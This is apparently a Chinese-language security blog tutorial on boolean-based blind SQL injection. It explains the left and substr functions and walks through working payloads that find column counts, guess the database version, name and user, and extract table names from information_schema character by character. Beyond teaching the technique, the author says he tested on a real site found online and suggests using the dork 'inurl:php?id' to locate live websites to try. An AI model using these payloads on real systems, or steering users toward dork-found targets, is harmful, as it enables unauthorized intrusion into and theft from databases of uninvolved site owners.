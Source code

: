 ```yaml
---
title: 布尔盲注
toc: true
description: 简要介绍布尔盲注的流程，并介绍常用的函数以及注入流程中常用的 payload。
categories:
    - websec
    - sql injection
date: 2019-07-27 17:13:17
tags:
---
```


鉴于 sqli-lib less 5 和 webug 的布尔注入都不太规范，我又懒得看 dvwa。于是，从网上找了个标准的布尔盲注的站点，自己测试了一下，这里就不在演示了。你可以使用 inurl:php?id 去百度或谷歌一些网站看看。

# 简介

在 [webug 的布尔注入](https://xuj.me/wiki/web_security/sql_injection/boolean_based_of_webug/)已经谈到了

# 布尔盲注常用函数

[字符串截取函数](https://www.cnblogs.com/lcamry/p/5504374.htm)

## 常用（摘抄自上面链接）

### left

left(string，n)得到字符串左部指定个数的字符，一般我在猜测字符串时使用，比如：有些网站习惯于将一些数据库名/表名定义成自己网站的名字或网址去掉符号，还有一些常见的定义库表的名字，如果我逐个字符猜了几个看到和那个有匹配，我就用 left 尝试去匹配一下，当然，直接用 left 一个一个字符猜也是可以的。

Sql 用例：

(1) left(database(), 1)>'a' 查看数据库的第一位，left(database(), 2)>'ab' 查看数据库名前二位。

left(version(), 1) > '5'

(2) 同样的 string 可以为自行构造的 sql 语句。

### substr

substr(string, start, length) 第一个参数为要处理的字符串，start 为开始位置，length 为截取的长度。

Sql 用例：

(1) substr(DATABASE(),1,1)>’a’,查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。

一般就用它来一个字符一个字符的猜。

### regexp 正则

这里，暂时还没用过，看下面链接吧，用到再说。

[sql 盲注之正则表达式攻击](https://www.cnblogs.com/lcamry/articles/5717442.html)

# 流程

### 猜字段

```php
?id=10 order by 14--+
```

### 看显示位

```php
?id=-10 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 --+
```

看看有没有显示位，**_一定注意：_**把 id = 10 改成 id = -10，让前面查询无果(说道这里，大声哭泣..)，**如果有显示位就没必要盲注了**。

对于布尔盲注来说，当然是没有显示位了。

### 数据库版本

用 substr 一个个猜测，一般从 5 开始，5.6 和 5.7 比较常见，当然用 left 也一样。注意：版本中的逗点也算一个字符。

```php
?id=10 and left(version(),1)='5' --+

?id=10 and left(version(),3)='5.6' --+

?id=10 and left(version(),6)='5.6.19' --+
```

### 猜当前数据库名

```php
?id=10 and ascii(substr(database(),1,1))>97 --+
```

二分思想，通过看页面是否正常，一个个猜，逐渐逼近。

当然，如果前几个字母网站名或常用名，不妨直接猜测整体试试。

### 猜当前用户名

```php
?id=10 and length(user())>6 --+
```

有的网站使用：网站名@localhost 的形式，还是一句话，随机应变。

### 库中的表的个数

```php
?id=10 and (select count(table_name) from information_schema.tables where table_schema=database())>5 --+
```

### 爆表

#### 爆第一个表的长度

```php
?id=10 and (select length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9) --+
```

#### 爆表的名称

```php
?id=10 and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97) --+
```

后面就不详细讲了，参考回显注入语句与上面语句自己构造就好了。
